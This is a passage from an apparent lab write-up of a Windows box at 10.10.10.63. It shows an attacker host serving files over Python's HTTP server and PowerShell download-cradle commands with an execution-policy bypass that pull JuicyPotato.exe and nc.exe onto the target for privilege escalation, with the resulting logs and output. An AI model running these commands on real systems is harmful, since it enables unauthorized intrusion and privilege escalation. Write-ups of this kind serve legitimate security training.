 - With these privileges, `RottenPotato` and `JuicyPotato` work great
- Getting `JuicyPotato` to transfer over so I can escalate privileges:
- Started a python server on port `8000`
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.63 - - [04/Oct/2024 12:58:41] "GET /JuicyPotato.exe HTTP/1.1" 200 -
```

- used PowerShell to transfer `JuicyPotato.exe` from LHOST to the RHOST
```
C:\Users\Public>powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.6:8000/JuicyPotato.exe', 'C:\Users\public\JuicyPotato.exe')" -bypass executionpolicy
powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.6:8000/JuicyPotato.exe', 'C:\Users\public\JuicyPotato.exe')" -bypass executionpolicy
Invoke-Expression : Cannot bind argument to parameter 'Command' because it is null.
At line:1 char:4
+ IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.6:8000/Ju ...
+    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidData: (:) [Invoke-Expression], ParameterBindingValidationException
    + FullyQualifiedErrorId : ParameterArgumentValidationErrorNullNotAllowed,Microsoft.PowerShell.Commands.InvokeExpre 
   ssionCommand
 

C:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Public

10/04/2024  08:58 PM    <DIR>          .
10/04/2024  08:58 PM    <DIR>          ..
10/25/2017  04:42 PM    <DIR>          Documents
10/30/2015  03:24 AM    <DIR>          Downloads
10/04/2024  08:58 PM           347,648 JuicyPotato.exe
10/30/2015  03:24 AM    <DIR>          Music
10/30/2015  03:24 AM    <DIR>          Pictures
10/30/2015  03:24 AM    <DIR>          Videos
               1 File(s)        347,648 bytes
               7 Dir(s)   2,608,054,272 bytes free
```

- Put `nc` on RHOST
```
powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.6:8000/nc.exe', 'C:\Users\public\nc.exe')" -bypass executionpolicy
```

- Start python server
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server         
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.63 - - [04/Oct/2024 13:12:18] "GET /nc.exe HTTP/1.1" 200 -
```
- Transfer `nc`
```
C:\Users\Public>powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.6:8000/nc.exe', 'C:\Users\public\nc.exe')" -bypass executionpolicy
powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.6:8000/nc.exe', 'C:\Users\public\nc.exe')" -bypass executionpolicy
Invoke-Expression : Cannot bind argument to parameter 'Command' because it is null.
At line:1 char:4
```
